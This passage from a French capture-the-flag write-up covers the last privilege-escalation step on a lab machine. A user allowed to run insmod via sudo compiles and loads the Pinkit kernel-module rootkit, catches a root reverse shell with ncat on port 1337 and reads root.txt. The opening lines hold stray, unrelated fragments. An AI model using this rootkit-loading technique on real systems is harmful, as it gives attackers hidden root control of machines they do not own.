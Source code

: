 Preuve que mon code fonctionne bien :)

## La syntaxe absolue dans l'ensemble des exercices du module

Notre dernier utilisateur, pinky, est autorisé à charger un module noyau :

```
pinky@pinkys-palace:~$ sudo -l
Matching Defaults entries for pinky on pinkys-palace:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pinky may run the following commands on pinkys-palace:
    (ALL) NOPASSWD: /sbin/insmod
    (ALL) NOPASSWD: /sbin/rmmod
```

Je pensais d'abord compiler et charger [m0nad/Diamorphine: LKM rootkit for Linux Kernels 2.6.x/3.x/4.x/5.x (x86/x86_64 and ARM64)](https://github.com/m0nad/Diamorphine) comme pour le CTF [KI]({% link _posts/2022-11-04-Solution-du-CTF-Ki-de-VulnHub.md %}) mais cette backdoor générait une erreur étrange de permission lors du chargement.

Finalement l'auteur du CTF a un rootkit parmi ses projets : [PinkP4nther/Pinkit: A quick LKM rootkit that executes a reverse TCP netcat shell with root privileges.](https://github.com/PinkP4nther/Pinkit)

Et celui-ci s'est chargé correctement. Il faut juste éditer le code préalablement, car le module fait appel à des exécutables qui ne sont pas forcément au bon endroit sur la machine (`/bin` au lieu de `/usr/bin`).

```console
pinky@pinkys-palace:~/Pinkit$ make
make -C /lib/modules/4.9.0-6-686/build M=/home/pinky/Pinkit modules
make[1]: Entering directory '/usr/src/linux-headers-4.9.0-6-686'
  CC [M]  /home/pinky/Pinkit/pinkit.o
  Building modules, stage 2.
  MODPOST 1 modules
  CC      /home/pinky/Pinkit/pinkit.mod.o
  LD [M]  /home/pinky/Pinkit/pinkit.ko
make[1]: Leaving directory '/usr/src/linux-headers-4.9.0-6-686'
pinky@pinkys-palace:~/Pinkit$ sudo /sbin/insmod pinkit.ko
```

La charge consiste à donner un reverse-shell sur le port 1337, il faut donc écouter sur ce port :

```console
$ ncat -l -p 1337 -v
Ncat: Version 7.40 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 127.0.0.1.
Ncat: Connection from 127.0.0.1:54822.
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt
# cat root.txt
 ____  _       _          _     
|  _ \(_)_ __ | | ___   _( )___ 
| |_) | | '_ \| |/ / | | |// __|
|  __/| | | | |   <| |_| | \__ \
|_|   |_|_| |_|_|\_\\__, | |___/
                    |___/       
 ____       _              __     _______ 
```